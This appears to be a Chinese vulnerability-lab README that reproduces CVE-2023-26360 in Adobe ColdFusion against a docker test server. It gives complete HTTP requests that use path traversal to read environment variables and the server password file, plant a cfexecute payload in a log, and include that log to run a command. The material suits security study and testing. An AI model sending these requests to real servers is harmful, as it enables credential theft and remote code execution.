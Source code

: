 # Adobe ColdFusion 本地文件包含漏洞（CVE-2023-26360）

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion 2018 Update 15 和 2021 Update 5 版本及以前，存在一处文件包含漏洞。攻击者可以利用该漏洞在服务器上执行任意代码。

参考链接：

- <https://xz.aliyun.com/t/13392>

## 漏洞环境

启动一个Adobe ColdFusion 2018.0.15服务器：

```
docker compose up -d
```

等待一段时间后环境启动成功，访问`http://your-ip:8500/CFIDE/administrator/index.cfm`，输入密码`vulhub`，即可成功安装Adobe ColdFusion。

## 漏洞复现

发送如下请求即可读取文件`/proc/self/environ`：

```
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=foo&_cfclient=true HTTP/1.1
Host: localhost:8500
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 82
Content-Type: application/x-www-form-urlencoded

_variables={"_metadata":{"classname":"../../../../../../../../proc/self/environ"}}
```

你可以在返回包中找到Adobe ColdFusion的根目录`/opt/coldfusion/cfusion`：

![](1.png)

从`../../../../../../../../opt/coldfusion/cfusion/lib/password.properties`中读取服务器密码：

![](2.png)

想要利用文件包含漏洞执行任意代码，需要先发送如下请求来写入CFM脚本：

```
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=foo&_cfclient=true HTTP/1.1
Host: localhost:8500
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 67
Content-Type: application/x-www-form-urlencoded

_variables=<cfexecute name='id' outputFile='/tmp/success' ></cfexecute>
```

然后包含日志文件，执行该CFM代码：

```
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=foo&_cfclient=true HTTP/1.1
Host: localhost:8500
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 111
Content-Type: application/x-www-form-urlencoded

_variables={"_metadata":{"classname":"../../../../../../../../opt/coldfusion/cfusion/logs/coldfusion-out.log"}}
```

可见，`id`命令的执行结果已经被写入`/tmp/success`：

![](3.png)
